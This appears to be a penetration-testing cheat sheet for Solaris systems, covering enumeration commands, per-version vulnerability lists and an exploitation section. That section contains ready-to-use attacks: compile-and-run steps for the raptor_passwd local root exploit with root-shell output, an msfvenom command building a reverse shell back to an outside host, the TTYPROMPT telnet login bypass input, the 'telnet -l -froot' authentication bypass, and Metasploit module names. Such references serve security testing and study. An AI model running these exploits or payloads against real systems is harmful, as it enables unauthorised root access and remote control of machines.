 ```yaml
---
description: Information gathering and exploitation
---
```


# Solaris

## Enumeration

**View patches** 

`showrev -p` 

**Installed packages:** 

`Pkginfo  OR pkginfo -x`

**Host information**

`uname -a`

**Show IP interface:** 

`Ifconfig -a` 

**Process list:** 

`/usr/ucb/ps -auxww` 

### Patch check analyser

[http://www.par.univie.ac.at/solaris/pca/](http://www.par.univie.ac.at/solaris/pca/)

Patch Check Advanced \(PCA\) generates lists of installed and missing patches for Oracle Solaris systems and optionally downloads patches. It resolves dependencies between patches and installs them in correct order. It can be the only tool you ever need for patch management, be it on a single machine or a complete network. Just one perl script, it doesn't need compilation nor installation, and it doesn't need root permissions to run. It works on all versions of Solaris, both SPARC and x86.

#### Usage:

`./pca.pl –f . –l missings`

will produce a list of missing patches, the following is an example. Note the ‘.’ Represents the current directory so ensure that the three files are in the same directory.



## Common Solaris Vulnerabilities

### Solaris 7

* sadmind\_exec SADMIND - weakness in default security settings - allows root - rootdown.pl 
* \*\*ttyprompt TELNET - buffer overflow in solaris login - manual through telnet client 
* sendmail\_exec LPD - line printer daemon buffer overflow - allows root 
* heap\_noir DTSPCD - CDE common desktop environment heap overflow TCP port 6112, runs with root 
* ypupdated\_exec YPUPDATED - weakness in handling of the command shell - allows root 
* kcms\_readfile kcms / ttdbserverd remote file read \(only in msf2\)

### Solaris 8

* sadmind\_exec SADMIND - weakness in default security settings - allows root - rootdown.pl 
* \*\*ttyprompt TELNET - buffer overflow in solaris login - manual through telnet client 
* sendmail\_exec LPD - line printer daemon buffer overflow - allows root 
* heap\_noir DTSPCD - CDE common desktop environment heap overflow TCP port 6112, runs with root 
* ypupdated\_exec YPUPDATED - weakness in handling of the command shell - allows root. 
* no exploit - sadmind\_adm\_build\_path SADMIND - stack buffer overflow in adm\_build\_path\(\) function. 
* kcms\_readfile kcms / ttdbserverd remote file read \(only in msf2\)

### solaris 9:

* sadmind\_exec SADMIND - weakness in default security settings - allows root - rootdown.pl 
* ypupdated\_exec YPUPDATED - weakness in handling of the command shell - allows root. 
* sadmind\_adm\_build\_path SADMIND - stack buffer overflow in adm\_build\_path\(\) function. 
* kcms\_readfile kcms / ttdbserverd remote file read \(only in msf2\)

### Solaris 10

* fuser TELNET - authentication bypass through -f command - can be manually exploited 
* ypupdated\_exec YPUPDATED - weakness in handling of the command shell - allows root.

### Solaris 11

* fuser TELNET - authentication bypass through -f command - can be manually exploited

## **Exploits**

### **Solaris 8 finger**

`finger '1 2 3 4 5 6 7 8 9 0'@target`

### **Solaris exploits**

https://github.com/0xdea/exploits 

#### raptor\_passwd

```text
$ gcc raptor_passwd.c -o passwd -ldl -Wall
$./raptor_passwd p@ssw0rd
raptor_passwd.c - passwd circ() local, Solaris/SPARC 8/9
Copyright (c) 2004 Marco Ivaldi <raptor@0xdeadbeef.info>
Using SI_PLATFORM : SUNW,UltraAX-i2 (5.9)
Using stack base : 0xffbffffc
Using var address : 0xffbffb58
Using rwx_mem address : 0xff3f6004
Using sc address : 0xffbfff9c
Using ff address : 0xffbfff58
Using strcpy() address : 0xff3e0288
"Pai Mei taught you the five point palm exploding heart technique?" -- Bill
"Of course." -- Beatrix Kidd0, alias Black Mamba, alias The Bride (KB Vol2)
# id;uname -a;uptime;
uid=0(root) gid=9610(gengrp) egid=3(sys)
SunOS wks1 5.9 Generic sun4u sparc SUNW,UltraAX-i2
1:53pm up 1 day(s), 16:32, 1 user, load average: 0.00, 0.00, 0.01
#
```

### **Msfvenom payload** 

`msfvenom -p solaris/x86/shell_reverse_tcp lhost=10.10.14.6 lport=5555 -f elf > /root/Desktop/raj.elf`

###  TTYPROMPT exploit

Solaris TTYPROMPT Security Vulnerability \(Telnet\) 

This vulnerability is very simple to exploit, since it does not require any code to be compiled by an attacker. The vulnerability only requires the attacker to simply define the environment variable TTYPROMPT to a 6-character string, inside telnet. Jonathan believes this overflows an integer inside login, which specifies whether the user has been authenticated \(just a guess\). 

Once connected to the remote host, you must type the username, followed by 64 " c"s, and a literal "\n". You will then be logged in as the user without any password authentication. This should work with any account except root \(unless remote root login is allowed\).  

**Example**:

```text
coma% telnet  
telnet> environ define TTYPROMPT abcdef  
telnet> o localhost  
SunOS 5.8  
bin c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c\n  
Last login: whenever  
$ whoami bin  
```

**Metasploit:**

 Solaris in.telnetd TTYPROMPT Buffer Overflow

```text
msf > use exploit/solaris/telnet/ttyprompt
```

### **Telnet exploit \(fuser\)**

exploits the argument injection vulnerability in the telnet daemon \(in.telnetd\) of Solaris 10 and 11.  

**Command line:** 

```text
telnet -l "-fbin" target_address 
Or also 
telnet -l "-froot" 192.168.0.1 
```

**Metasploit:** 

msf &gt; use exploit/solaris/telnet/fuser 

